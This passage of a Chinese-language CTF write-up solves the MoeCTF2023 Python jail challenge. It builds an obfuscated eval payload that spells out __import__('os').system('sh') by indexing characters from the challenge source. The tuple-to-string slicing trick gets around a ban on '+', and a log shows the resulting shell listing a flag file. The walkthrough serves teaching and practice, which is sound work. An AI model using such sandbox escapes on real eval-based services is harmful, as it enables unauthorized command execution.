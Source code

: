 ```python
h 24

__import__("os").system("sh")
176 176 40 17 5 16 6 20 176 176 10 11 16 56 11 162 52 56 157 56 20 13 17 10  11 56 24 11 162

```

这下就好了，但是呢，禁了加号，我怎么把字符拼接起来呢？我想到了元组

```python
(CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[40],CHALLENGE_SOURCE_CODE[17],CHALLENGE_SOURCE_CODE[5],CHALLENGE_SOURCE_CODE[16],CHALLENGE_SOURCE_CODE[6],CHALLENGE_SOURCE_CODE[20],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[10],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[16],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[162],CHALLENGE_SOURCE_CODE[52],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[157],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[20],CHALLENGE_SOURCE_CODE[13],CHALLENGE_SOURCE_CODE[17],CHALLENGE_SOURCE_CODE[10],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[24],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[162])
```

输出:
```python
Answer result: ('_', '_', '_', 'i', 'm', 'p', 'o', 'r', 't', '_', '_', '(', '"', 'o', 's', '"', ')', '.', 's', 'y', 's', 't', 'e', 'm', '(', '"', 's', 'h', '"', ')')
```

好像已经距离成功不远了！！。接下来我们str(元组)试试

输出
```python
Answer result: ('_', '_', '_', 'i', 'm', 'p', 'o', 'r', 't', '_', '_', '(', '"', 'o', 's', '"', ')', '.', 's', 'y', 's', 't', 'e', 'm', '(', '"', 's', 'h', '"', ')')
```

你可能会问这和刚刚有啥不一样？确实不一样，刚刚输出的是元组，这个输出的是元组转文本的值

那么下来的操作，我们从第7个索引开始，每5个字符拿一次，就是[7::5]

最后的payload就是:
```python
eval(str((CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[40],CHALLENGE_SOURCE_CODE[17],CHALLENGE_SOURCE_CODE[5],CHALLENGE_SOURCE_CODE[16],CHALLENGE_SOURCE_CODE[6],CHALLENGE_SOURCE_CODE[20],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[10],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[16],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[162],CHALLENGE_SOURCE_CODE[52],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[157],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[20],CHALLENGE_SOURCE_CODE[13],CHALLENGE_SOURCE_CODE[17],CHALLENGE_SOURCE_CODE[10],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[24],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[162]))[7::5])

```

附：激动人心的时刻
```python
>>> e
Welcome to the MoeCTF2023 Jail challenge.It's time to work on this calc challenge.
Enter your expression and I will evaluate it for you.
> eval(str((CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[40],CHALLENGE_SOURCE_CODE[17],CHALLENGE_SOURCE_CODE[5],CHALLENGE_SOURCE_CODE[16],CHALLENGE_SOURCE_CODE[6],CHALLENGE_SOURCE_CODE[20],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[176],CHALLENGE_SOURCE_CODE[10],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[16],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[162],CHALLENGE_SOURCE_CODE[52],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[157],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[20],CHALLENGE_SOURCE_CODE[13],CHALLENGE_SOURCE_CODE[17],CHALLENGE_SOURCE_CODE[10],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[56],CHALLENGE_SOURCE_CODE[24],CHALLENGE_SOURCE_CODE[11],CHALLENGE_SOURCE_CODE[162]))[7::5])

ls
flag_53564aadf96c9fee
```